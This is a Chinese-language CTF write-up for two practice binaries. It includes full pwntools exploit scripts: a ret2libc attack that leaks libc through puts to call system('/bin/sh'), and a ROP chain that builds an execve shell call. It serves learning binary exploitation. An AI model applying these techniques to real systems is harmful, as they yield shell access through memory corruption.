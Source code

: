 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

## ret2libc1

- `32`位`libc`泄露
- `cyclic`确定溢出位置的使用

<img src="../assets/img/old_imgs/image-20240115131701619.png" alt="image-20240115131701619"  />

> 变量`s`存在泄露,但是这里`ida`显示的栈空间并不准确

![image-20240115131936821](../assets/img/old_imgs/image-20240115131936821.png)

> 程序中存在`system`函数,可以直接利用

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

![image-20240115131923818](../assets/img/old_imgs/image-20240115131923818.png)

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```

## rop

- one_gadgets

![image-20240115132428755](../assets/img/old_imgs/image-20240115132428755.png)

第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

